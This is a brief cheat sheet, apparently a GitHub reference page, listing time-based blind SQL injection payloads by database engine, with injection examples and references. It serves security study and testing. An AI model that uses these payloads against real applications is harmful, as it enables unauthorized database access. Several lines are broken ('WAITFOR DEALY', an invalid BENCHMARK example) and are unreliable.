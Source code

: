 ## Trigger Time Delays
| Applicability | Payload |
| - | - |
| MySQL, MariaDB | `SELECT SLEEP(5);` |
| | `SELECT BENCHMARK(repeats, expression_to_execute);` |
| PostgreSQL | `SELECT pg_sleep(5)` | 
| SQL Server | `WAITFOR DEALY '00:00:05';` |
| | `WAITFOR DEALY '0:0:05';` |
| Oracle | `DBMS_LOCK.sleep(5);` |
| | `DBMS_PIPE.RECEIVE_MESSAGE('STR',5)` |

### Example
```SQL
<!-- Example: checking if a table exists -->
IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))
```
----
```SQL
<!-- No delay -->
' IF (1=2) THEN SLEEP(5) ELSE '' END-- -

<!-- Yes delay -->
' IF (1=1) THEN SLEEP(5)-- -
' || pg_sleep(10)--
```

# References
+ PortSwigger Web Security Academy
+ [Invicti's SQLi Cheatsheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
+ [Tib3rius's SQLi Cheatsheet](https://tib3rius.com/sqli)